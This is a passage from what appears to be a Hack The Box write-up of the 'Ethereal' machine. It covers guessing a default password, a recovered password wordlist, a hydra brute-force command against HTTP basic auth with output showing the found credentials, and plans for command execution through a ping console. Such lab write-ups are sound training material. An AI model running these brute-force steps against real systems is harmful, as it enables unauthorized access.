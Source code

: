 There was nothing anywhere in the ftp or website that gave hint to what the password might be, so we start guessing a few common and default passwords before moving on to potentially hvaing to script out our cewl wordlist again... eventually we get in with the password `password` 
![228360231.png]({{site.baseurl}}/Images/Ethereal/228360231.png)

It doesn't look like there is any way to highlight/select the text or copy paste it out or DOSbox, so we have to manually type them out to a passes.txt file:
```
root@kali: cat passes.txt 
7oth3B@tC4v3!
alan
ethereal
P@ssword1!
alan2
learning!
Watch3r
Ex3cutiv3Backups
R3lea5eR3@dy#
Password8
!C414m17y57r1k3s4g41n!
alan53
Ch3ck1ToU7>
```

We have already determined that the login form on port 80 does nothing, and we also know that the basic auth on port 8080 has to lead somewhere, so we use this wordlist for both users and passwords and craft a hydra command to attempt to log in:
```
root@kali: hydra -L passes.txt -P passes.txt http-get://ethereal.htb:8080 
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-01-28 11:02:00
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 169 login tries (l:13/p:13), ~11 tries per task
[DATA] attacking http-get://ethereal.htb:8080/
[8080][http-get] host: ethereal.htb   login: alan   password: !C414m17y57r1k3s4g41n!
1 of 1 target successfully completed, 1 valid password found
```

Once that finishes running we get a hit with login: `alan` password: `!C414m17y57r1k3s4g41n!`

Using these credentials to log in to the site we get an 'Admin Console':
![228458544.png]({{site.baseurl}}/Images/Ethereal/228458544.png)

We can test to see if this website actually works using many tools, WireShark, tcpdump etc

Set any of these tools to listen to the `tun0` (htb vpn) interface and see if our machine gets an ICMP ping:
![230719735.png]({{site.baseurl}}/Images/Ethereal/230719735.png)

We can see that we are successfully being sent 2 ping requests.

We have seen something similar to this on a previous HTB machine [Mischief](https://so.thosearethegui.se/2019/01/06/htb-Mischief.html), so we try to follow a similar path to get some form of command execution.
